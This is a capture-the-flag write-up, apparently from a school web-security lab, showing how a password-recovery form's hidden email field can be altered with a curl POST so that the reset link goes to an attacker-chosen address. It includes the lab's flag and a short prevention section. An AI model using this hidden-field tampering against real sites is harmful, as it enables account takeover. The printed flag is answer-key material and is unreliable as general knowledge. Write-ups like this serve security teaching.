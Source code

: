 # Description

Visiting the sign in page from the home page give us a Login panel with username and password.

Using the I forgot my password option can make us recover the password.

Viewing the source code of the password recovery form

```html
<form action="#" method="POST">
	<input type="hidden" name="mail" value="webmaster@borntosec.com" maxlength="15">
	<input type="submit" name="Submit" value= "Submit">
</form>
```

It's obvious that it sends a recovery email to webmaster@borntosec.com

Changing that email to another one. By doing so it will sends us the recovery password link instead

# Attack

Using Curl to send a post request with the new email in it

```bash
*[main][/goinfre/mashad/projects/darkly]$ curl -X POST -d "mail=example@gmail.com&Submit=Submit" http://10.12.177.91/\?page=recover
<!DOCTYPE HTML>
<html>
        ..
<center><h2 style="margin-top:50px;"> The flag is : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>

*[main][/goinfre/mashad/projects/darkly]$ 
```

# Prevention

- **Secure Password Recovery Form:** In the password recovery form, don't reveal sensitive information like email addresses or user identifiers. A more secure approach is to send a password reset link to the email address on file without disclosing any information.

- **Authentication for Password Recovery:** Before sending a password reset email, ensure that the user making the request is the legitimate account owner. Implement proper authentication mechanisms, such as security questions or email verification, to validate the identity of the user requesting the password reset.

- **Developer Education:** Educate your development team about secure coding practices.
